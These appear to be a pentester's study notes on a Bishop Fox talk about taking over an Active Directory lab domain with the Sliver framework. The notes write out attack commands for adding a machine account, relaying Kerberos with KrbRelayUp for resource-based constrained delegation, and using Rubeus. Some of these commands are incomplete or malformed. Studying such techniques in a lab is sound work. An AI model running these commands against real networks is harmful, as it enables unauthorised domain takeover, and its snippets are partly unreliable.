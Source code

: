 # TALK Pwning the Domain With Sliver Framework

[YouTube Bishop Fox - Pwning the Domain With Sliver Framework](https://www.youtube.com/watch?v=PPNvN3P3ioY) description: *"Mastering the art of adversarial emulation with the most cutting-edge and advanced techniques is one of the keys to success for penetration testers. A definitive hallmark of an experienced ethical hacker is a meticulously crafted toolkit. But with an overwhelming array of tools at your disposal, how do you determine where to focus your efforts? During our exclusive livestream, watch how our renowned senior security expert, Jon Guild, leverages Bishop Fox’s Sliver, an open-source Red Team framework created by fellow Foxes Joe Demesy & Ronan Kervella, to refine his offensive security strategies and techniques. Gain valuable insights from Jon's first-hand experience in a vulnerable lab environment, covering pivotal techniques such as enumeration, lateral movement, and escalation. Be ready to level up your hacking skills at the conclusion of this training session with actionable tips and tricks. Join us to uncover the untapped potential of Sliver and take your offensive security skills to new heights. You’ll have the opportunity to dive into the world of Sliver and learn: - How to pwn the domain using Sliver - Techniques for developing and refining technical methodologies using the Sliver framework - A live demo highlighting Jon’s Sliver knowledge and expertise"*

This is sequel to [[TALK-Ace-The-OSEP-Exam-with-Sliver-Framework]]

[[Sliver]] cheatsheet link.

Recap:
- Recent changes to GOAD
- Starting on Meeren in Essos domain from
	- From Kali ASREP roast to `khal.drogo`
	- Owned `braavos` server
	- Enumerated with Bloodhound
	- [[GenericAll]] on `viserys`
	- Attempt KrbRelay for Privilege Escalation
	- Use [GitHub - KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) 
		- Explanation [gist Tothi - No-Fix Local Privilege Escalation from low-priviliged domain user to local system on domain-joined computers.](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)

To clarify variable usage:
```bash
$SRC..., $DST... = (for domain or other identifiers); src = local, dst = remote
```

Because of where we are in are long term attack path, Jon can add a computer with the *Horse password user*... with [[Impacket-Cheatsheet]] and [[ldeep]] (a wrapper around `ldapsearch`) to verify; **Authorial Opinion**: *learn how rough [[LDAP-Recon]] is to understand LDAP, before using the easy way, LDAP is used in internal application probably more than RPC (proof the amount of CTF that use LDAP is vastly greater than RPC)*
```bash
impacket-addcomputer $domain.$tld/$username -computer-name '$cpName' -computer-pass 'P@ssword1' -dc-ip $DSTdcIP
```  

Use [[Krbrelayup]] to Privilege Escalate *not* Lateral movement; we are on DC coercing the LDAP server to abuse `msDS-AllowedToActOnBehalfofotherIdentity` (fancy way of saying Resource based Constrained Delegation) - the machine can write to its own `msDS-AllowedToActOnBehalfofotherIdentity` and update this to want we want. Use `checkPort.exe` to get the correct port: [gist Tothi - No-Fix Local Privilege Escalation from low-privileged domain user to local system on domain-joined computers.](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)

```powershell
Sharpmad.exe MAQ -Action new -MachineAccount evilcomputer -MachinePassword pass.123

# Get computer SID
$o = ([ADSI]"LDAP://CN=evilcomputer,CN=Computers,DC=ecorp,DC=local").objectSID
(New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
# Get Computer SID
$f = "(&(objectCategroy=computer)(objectClass=computer)(cn=evilcomputer))"
$s = ([ADSISearcher]$f).FindOne().Properties.objectSID
(New-Object System.Security.Principal.SecurityIdentifier([byte[]]($s | Out-String -Stream), 0)).Value

```

Get COM Ports
```powershell
# NEED TO TEST - https://stackoverflow.com/questions/1081871/how-to-find-available-com-ports
[System.IO.Ports.SerialPort]::GetPortNames()
```

Build and Execute assembly through sliver 
https://github.com/cube0x0/KrbRelay/tree/main/CheckPort

[Juicy-Potato CLSID lists](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
```go
// Use relay to resource constrained delegation - valuable to know this
// Other is shadowprint
krbrelayup '' relay -m rbcd -cls $CLSchooseTrustInstallerItsGoodByServer -p $port -cn '$computerName' -cp 'P@ssword1' -d $domain.$tld
// Check Machines and Delegations with LDAP for confirmation
```

Use Rubeus for RBCD
```go
rubeus -i -M -- hash / password:P@ssword1 /user:$computerName /domain:$DSTdomain.$tld
```
## References

[YouTube Bishop Fox - Pwning the Domain With Sliver Framework](https://www.youtube.com/watch?v=PPNvN3P3ioY) 
[GitHub - KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) 
[gist Tothi - No-Fix Local Privilege Escalation from low-privileged domain user to local system on domain-joined computers.](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
[Juicy-Potato CLSID lists](https://github.com/ohpe/juicy-potato/tree/master/CLSID)